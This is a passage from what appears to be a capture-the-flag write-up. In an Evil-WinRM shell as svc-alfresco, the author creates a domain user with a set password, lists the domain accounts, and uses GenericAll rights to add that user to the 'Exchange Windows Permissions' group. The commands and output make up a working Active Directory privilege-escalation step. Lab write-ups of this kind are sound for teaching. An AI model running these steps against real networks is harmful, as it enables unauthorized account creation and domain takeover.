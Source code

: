 ```c
svc-alfresco
The command completed with one or more errors.

*Evil-WinRM* PS C:\Users\svc-alfresco> net user aidenpearce369 C@ntH4ckM3 /add /domain
The command completed successfully.

*Evil-WinRM* PS C:\Users\svc-alfresco> net users /domain

User accounts for \\

-------------------------------------------------------------------------------
$331000-VK4ADACQNUCA     Administrator            aidenpearce369
andy                     DefaultAccount           Guest
HealthMailbox0659cc1     HealthMailbox670628e     HealthMailbox6ded678
HealthMailbox7108a4e     HealthMailbox83d6781     HealthMailbox968e74d
HealthMailboxb01ac64     HealthMailboxc0a90c9     HealthMailboxc3d7722
HealthMailboxfc9daad     HealthMailboxfd87238     krbtgt
lucinda                  mark                     santi
sebastien                SM_1b41c9286325456bb     SM_1ffab36a2f5f479cb
SM_2c8eef0a09b545acb     SM_681f53d4942840e18     SM_75a538d3025e4db9a
SM_7c96b981967141ebb     SM_9b69f1b9d2cc45549     SM_c75ee099d0a64c91b
SM_ca8c2ed5bdab4dc9b     svc-alfresco
The command completed with one or more errors.

*Evil-WinRM* PS C:\Users\svc-alfresco> 
```

Now using the ```GenericAll``` we are adding a new user to the group,

Adding our new user into the target group,

```c
*Evil-WinRM* PS C:\Users\svc-alfresco> net group "Exchange Windows Permissions"
Group name     Exchange Windows Permissions
Comment        This group contains Exchange servers that run Exchange cmdlets on behalf of users via the management service. Its members have permission to read and modify all Windows accounts and groups. This group should not be deleted.

Members

-------------------------------------------------------------------------------
The command completed successfully.

*Evil-WinRM* PS C:\Users\svc-alfresco> net group "Exchange Windows Permissions" /add aidenpearce369
The command completed successfully.

*Evil-WinRM* PS C:\Users\svc-alfresco> net group "Exchange Windows Permissions"
Group name     Exchange Windows Permissions
Comment        This group contains Exchange servers that run Exchange cmdlets on behalf of users via the management service. Its members have permission to read and modify all Windows accounts and groups. This group should not be deleted.

Members

-------------------------------------------------------------------------------
aidenpearce369
The command completed successfully.

*Evil-WinRM* PS C:\Users\svc-alfresco> 
```
